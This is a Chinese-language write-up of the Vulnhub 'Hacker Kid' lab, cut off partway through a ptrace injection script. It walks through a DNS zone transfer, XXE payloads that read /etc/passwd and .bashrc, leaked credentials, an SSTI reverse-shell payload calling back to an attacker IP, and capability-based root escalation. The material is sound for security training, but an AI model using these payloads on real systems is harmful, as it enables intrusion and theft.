# Vulnhub-Hacker_Kid-v1.0.1

<div style="text-align: right;">

date: "2023-06-09"

</div>

## 提示
1. 主机发现
2. 端口发现 
3. web信息收集 
4. dns区域传输
5. xxe注入攻击
6. ssti模板注入
7. Capabilitie提权

## 外网打点
虚拟机配置好以后没有账号密码提示，直接fscan扫描C段，发现目标主机是192.168.36.153，扫描全端口

```bash
# fscan64.exe -h 192.168.36.153 -p 1-65535

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
(icmp) Target 192.168.36.153  is alive
[*] Icmp alive hosts len is: 1
192.168.36.153:25 open
192.168.36.153:110 open
192.168.36.153:53 open
192.168.36.153:80 open
192.168.36.153:9999 open
[*] alive ports len is: 5
start vulscan
[*] WebTitle: http://192.168.36.153     code:200 len:3597   title:Notorious Kid : A Hacker
[*] WebTitle: http://192.168.36.153:9999 code:302 len:0      title:None 跳转url: http://192.168.36.153:9999/login?next=%2F
[*] WebTitle: http://192.168.36.153:9999/login?next=%2F code:200 len:452    title:Please Log In
已完成 5/5
[*] 扫描结束,耗时: 3m51.4317787s
```

#### 外网打点-80端口

访问80端口，如下图所示


随便点点，找到app.html，发现点击无反应，抓包，无网络请求



form页面，这个页面有网络请求，但是没啥卵用



扫描一下目录



下面就一张图，点进去也没什么



#### 信息收集-js代码发现

审查源代码发现一个提示



意思是首页有个page_no的参数，看起来是传数值型参数



直接生成一个1-1000的字典先试一下水

```python
numbers = list(range(1, 1001))

with open("num.txt", "w") as file:
    for number in numbers:
        file.write(str(number) + "\n")
```


访问页面发现变了，英文翻译过来的意思是

___

好吧，你想让我说些什么？
我是一个黑客小子，不是一个愚蠢的黑客。所以我创建了一些子域，以便在我想的时候回到服务器上！!
在我的众多家园中......有一个这样的家园......一个这样的家园给我： hackers.blackhat.local
:::

___



这里需要改hosts文件中的内容，一个报403，一个没变化，访问如下：



#### 信息收集-dig发现子页面

很好，首页面提示了DIG，会不会是DIG命令呢（我也不会），但是在windows中又没有这个命令，还是得转到kali去打



dig命令结果如下：
首先是`dig axfr @192.168.36.153 blackhat.local`，用于执行区域传送操作。区域传送是一种在 DNS 中用于从主服务器向辅助服务器复制完整的区域（域名)数据的机制。

```bash
 <<>> DiG 9.18.12-1-Debian <<>> axfr @192.168.36.153 blackhat.local
 (1 server found)
 global options: +cmd
blackhat.local.         10800   IN      SOA     blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
blackhat.local.         10800   IN      NS      ns1.blackhat.local.
blackhat.local.         10800   IN      MX      10 mail.blackhat.local.
blackhat.local.         10800   IN      A       192.168.14.143
ftp.blackhat.local.     10800   IN      CNAME   blackhat.local.
hacker.blackhat.local.  10800   IN      CNAME   hacker.blackhat.local.blackhat.local.
mail.blackhat.local.    10800   IN      A       192.168.14.143
ns1.blackhat.local.     10800   IN      A       192.168.14.143
ns2.blackhat.local.     10800   IN      A       192.168.14.143
www.blackhat.local.     10800   IN      CNAME   blackhat.local.
blackhat.local.         10800   IN      SOA     blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
 Query time: 0 msec
 SERVER: 192.168.36.153#53(192.168.36.153) (TCP)
 WHEN: Wed Jun 07 11:54:45 EDT 2023
 XFR size: 11 records (messages 1, bytes 353)

```

总结起来，这段信息显示了"blackhat.local"域的一些记录，包括授权信息、名称服务器、邮件服务器、别名记录和 IPv4 地址。请注意，其中包含一个循环引用的别名记录。

将其中域名提取出来，全部添加到hosts文件中

```
192.168.36.153 blackhat.local
192.168.36.153 ns1.blackhat.local
192.168.36.153 mail.blackhat.local
192.168.36.153 ns2.blackhat.local
192.168.36.153 ftp.blackhat.local
192.168.36.153 hacker.blackhat.local
192.168.36.153 www.blackhat.local
192.168.36.153 hacker.blackhat.local.blackhat.local
192.168.36.153 hackerkid.blackhat.local
```



#### 外网打点-发现奇怪页面

挨个访问域名，这里可以写个脚本跑一下



英文单词很熟悉，注册用户，但不管输入什么都是报错

#### 外网打点-XML注入

抓包查看是xml代码，尝试xml注入。
在`<?xml version="1.0" encoding="UTF-8"?>`下面加上`<!DOCTYPE foo[<!ENTITY xxs SYSTEM 'file:///etc/passwd'>]>`，将email中的内容改为变量`&xxs;`，为什么要这样做？



大致意思是读取文件 `/etc/passwd`文件 ，将其赋给 xxs变量。然后将这个值放人 <email>标签中从而让服务器误认为这个文件是我们上传的邮箱。从而在回显我们错误邮箱的时候外带出我们窃取的文件。
通过上面的信息外带，我们进行用户的权限判断` saket:x:1000:1000:Ubuntu,,,:/home/saket:/bin/bash`是我们的最好的目标(不是root用户，但是能执行 shell)。然后通过 xml 对这个用户进行信息的外带。
我们是可以依次的访问 linux系统一些默认的文件，隐藏文件等等。自到我们访问` /home/saket/.bashrc `  (.bashrc 是用户级别的 Bash Shell 配置文件，用于自定义用户的 Shell 环境和行为)



但是我们发现一个比较恶性的事就是没有数据回显，表明我们没有权限或者说不能直接读取他。这是我们可以通过那个上个靶机渗透的技巧 ==`PHP的封装器`==。在前期的信息搜集我们是发现为php环境所以可以使用这个渗透技巧。（不同的渗透技巧是可以相互融合的非常重要)。

```
<!DOCTYPE foo[<!ENTITY xxs SYSTEM 'php://filter/convert.base64-encode/resource=/home/saket/.bashrc'>]>
```



解码内容为：

```bash
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) 
      *) return
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

# If set, the pattern "**" used in a pathname expansion context will
# match all files and zero or more directories and subdirectories.
#shopt -s globstar

# make less more friendly for non-text input files, see lesspipe(1)
[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"

# set variable identifying the chroot you work in (used in the prompt below)
if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
    debian_chroot=$(cat /etc/debian_chroot)
fi

# set a fancy prompt (non-color, unless we know we "want" color)
case "$TERM" in
    xterm-color|*-256color) color_prompt=yes
esac

# uncomment for a colored prompt, if the terminal has the capability; turned
# off by default to not distract the user: the focus in a terminal window
# should be on the output of commands, not on the prompt
#force_color_prompt=yes

if [ -n "$force_color_prompt" ]; then
    if [ -x /usr/bin/tput ] && tput setaf 1 >&/dev/null; then
	# We have color support; assume it's compliant with Ecma-48
	# (ISO/IEC-6429). (Lack of such support is extremely rare, and such
	# a case would tend to support setf rather than setaf.)
	color_prompt=yes
    else
	color_prompt=
    fi
fi

if [ "$color_prompt" = yes ]; then
    PS1='${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
else
    PS1='${debian_chroot:+($debian_chroot)}\u@\h:\w\$ '
fi
unset color_prompt force_color_prompt

# If this is an xterm set the title to user@host:dir
case "$TERM" in
xterm*|rxvt*)
    PS1="\[\e]0;${debian_chroot:+($debian_chroot)}\u@\h: \w\a\]$PS1"
    
*)
    
esac

# enable color support of ls and also add handy aliases
if [ -x /usr/bin/dircolors ]; then
    test -r ~/.dircolors && eval "$(dircolors -b ~/.dircolors)" || eval "$(dircolors -b)"
    alias ls='ls --color=auto'
    #alias dir='dir --color=auto'
    #alias vdir='vdir --color=auto'

    alias grep='grep --color=auto'
    alias fgrep='fgrep --color=auto'
    alias egrep='egrep --color=auto'
fi

# colored GCC warnings and errors
#export GCC_COLORS='error=01;31:warning=01;35:note=01;36:caret=01;32:locus=01:quote=01'

# some more ls aliases
alias ll='ls -alF'
alias la='ls -A'
alias l='ls -CF'

# Add an "alert" alias for long running commands.  Use like so:
#   sleep 10; alert
alias alert='notify-send --urgency=low -i "$([ $? = 0 ] && echo terminal || echo error)" "$(history|tail -n1|sed -e '\''s/^\s*[0-9]\+\s*//;s/[;&|]\s*alert$//'\'')"'

# Alias definitions.
# You may want to put all your additions into a separate file like
# ~/.bash_aliases, instead of adding them here directly.
# See /usr/share/doc/bash-doc/examples in the bash-doc package.

if [ -f ~/.bash_aliases ]; then
    . ~/.bash_aliases
fi

# enable programmable completion features (you don't need to enable
# this, if it's already enabled in /etc/bash.bashrc and /etc/profile
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi

#Setting Password for running python app
username="admin"
password="Saket!#$%@!!"
```

发现敏感词

```
username="admin"
password="Saket!#$%@!!"
```

#### 外网打点-9999端口
唯一的登录页面是9999端口的后台，这里需要使用saket用户进行登录，不明白

```
username="saket "
password="Saket!#$%@!!"
```


这里的话翻译过来就是告诉我你的名字，不然我不知道你是谁。
尝试在url中添加`?name=cy`，页面显示变化了，这符合ssti漏洞


## 外网打点-ssti漏洞
测试`?name=${7*7},{{7*7}}`

构造反弹shell的payload

```powershell
{{os.system('bash -c "bash -i >& /dev/tcp/192.168.36.131/4444 0>&1"')}}
```

需要进行url编码

```
%7B%25%20import%20os%20%25%7D%7B%7Bos.system(%27bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.36.131%2F4444%200%3E%261%22%27)%7D%7D
```



#### 外网打点-查找具有文件能力的命令

```bash
/sbin/getcap -r / 2>/dev/null
```

然后就是日常的信息搜集，然后利用各种提权的思路。但是我们都一一的行不通。自到我们从 Capabilities这个权限管理系统设置不当来入手才有所进展。
首先使用 `/sbin/getcap -r / 2>/dev/null`来递归的查询系统中所有配置了 capabilities权限的文件。



我们发现 python2.7是有个 cap_sys_ptrace这个权限（可以调试程序权限)，而这个权限是有提权的可能的一个权限。
查看与进程 `/usr/sbin/apache2 -k start `相关的进程号，选和 root 相关的然后通过python2.7来进行利用漏洞来提取。

```bash
ps -aef | grep '/usr/sbin/apache2 -k start'
```



同时我们利用python开启http来上传一个脚本，然后随意选择一个root的程序pid就可以执行代码了。这个脚本会默认的开启本地的5600端口。可以在kali上直接nc连接。采用 id命令就可以直接发现为root用户了。

```python
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
